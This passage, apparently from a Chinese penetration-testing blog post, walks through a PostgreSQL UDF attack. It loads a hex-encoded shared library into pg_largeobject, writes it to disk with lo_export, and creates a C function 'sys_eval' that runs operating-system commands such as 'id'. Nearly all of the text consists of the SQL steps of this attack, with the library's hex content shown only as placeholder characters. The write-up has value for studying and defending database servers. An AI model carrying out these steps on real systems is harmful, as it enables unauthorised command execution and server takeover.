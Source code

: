 老他么长的一段，怎么还原成二进制的so库文件呢？这里感谢 @瞌睡龙 提供的Tips，这里用到了PostgreSQL的pg_largeobject“大对象数据”，官方原文：pg_largeobject 表保存那些标记着"大对象"的数据。 一个大对象是使用其创建时分配的 OID 标识的。 每个大对象都分解成足够小的小段或者"页面"以便以行的形式存储在 pg_largeobject 里。 每页的数据定义为LOBLKSIZE(目前是BLCKSZ/4，或者通常是 2K 字节)。  
  
a）查看PostgreSQL目录  
  
```  
SELECT setting FROM pg_settings WHERE name='data_directory';  
```  
  
b）查询oid  
  
```  
select lo_creat(-1);  
```  
  
oid为当前对象大数据的标识符，我们要利用这个存储UDF文件内容。  
  
c）oid与上面保持一致  
  
```  
delete from pg_largeobject where loid=18412;  
```  
  
等于变相清空"页面"，不要干扰库的生成  
  
d）把16进制的so文件塞进去  
  
```  
insert into pg_largeobject (loid,pageno,data) values(18412, 0, decode('7F454CXXXXXXXXX000', 'hex'));  
```  
  
e）利用PostgreSQL自带函数将大型对象导出到文件  
  
```  
SELECT lo_export(18412, 'cmd.so');  
```  
  
f）建立UDF  
  
```  
CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '/xxx/cmd.so', 'sys_eval' LANGUAGE C RETURNS NULL ON NULL INPUT IMMUTABLE;  
```  
  
g）调用这个UDF  
  
```  
select sys_eval('id');  
```  
  